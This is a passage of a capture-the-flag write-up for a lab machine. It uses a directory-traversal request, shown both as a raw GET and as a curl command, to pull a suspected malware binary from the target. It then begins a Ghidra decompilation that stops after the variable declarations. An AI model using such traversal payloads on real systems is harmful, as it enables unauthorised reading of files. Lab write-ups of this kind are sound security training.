 Below, we have a binary file. The incidents dashboard indicates that it is malware (malware-details.txt). So, we can perform reverse engineering to investigate it.
```
GET /incidents?view=../../../../../../home/share/smbuser/firefox
```
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/vorfall]
└──╼ $curl 'http://172.16.0.70/incidents?view=../../../../../../home/share/smbuser/firefox' -o malware
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/vorfall]
└──╼ $file malware 
malware2: data
```
We need to remove the HTML part.
![Malware HTML](../images/vorfall/malware_html.png)

Opening GHidra and analyzing the main function of the malware, we have:
```c
undefined8 main(void)
{
  int iVar1;
  int iVar2;
  __pid_t _Var3;
  size_t sVar4;
  undefined8 uVar5;
  size_t sVar6;
  FILE *__stream;
  char *pcVar7;
  ssize_t sVar8;
  long in_FS_OFFSET;
  sockaddr local_1048;
  undefined8 local_1034;
  undefined4 local_102c;
  undefined local_1028;
  undefined8 local_1027;
  undefined4 local_101f;
  undefined2 local_101b;
  undefined local_1019;
  char local_1018 [4104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  
```